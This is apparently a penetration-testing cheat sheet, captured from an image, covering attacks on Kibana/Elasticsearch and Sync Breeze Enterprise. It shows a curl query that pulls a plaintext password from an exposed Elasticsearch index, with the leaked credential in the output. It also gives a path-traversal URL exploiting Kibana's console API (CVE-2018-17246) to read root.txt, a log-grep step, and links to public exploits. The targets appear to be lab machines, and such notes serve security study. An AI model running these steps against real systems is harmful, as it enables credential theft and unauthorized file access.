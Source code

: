 ### Kibana

* 5601 is the elastic search port, 9200 is the api

```
curl -X GET "10.10.15.175:9200/_search?q=password&pretty"                                                                                                                                                                  130 ⨯
{
  "took" : 11,
  "timed_out" : false,
  "_shards" : {
    "total" : 6,
    "successful" : 6,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : 1,
    "max_score" : 2.0136302,
    "hits" : [
      {
        "_index" : "messages",
        "_type" : "_doc",
        "_id" : "73",
        "_score" : 2.0136302,
        "_source" : {
          "sender" : "mary",
          "receiver" : "wendy",
          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
```

* If there are log files like on port 8000 which are showing you active kabana logs you can have a LFI vulnerability
* Go to the 5601 port and add this extension `/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt`

```
10.10.156.71:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt
```

* Then curl the logs and grep for root.txt

```
curl -s http://10.10.31.117:8000/kibana-log.txt | grep "root.txt" 
```

* Also can be used to get a shell in other situations
* https://github.com/mpgn/CVE-2018-17246

### Sync Breeze Enterprise

* Sync Breeze Enterprise v8.9.24
* https://www.exploit-db.com/exploits/40456
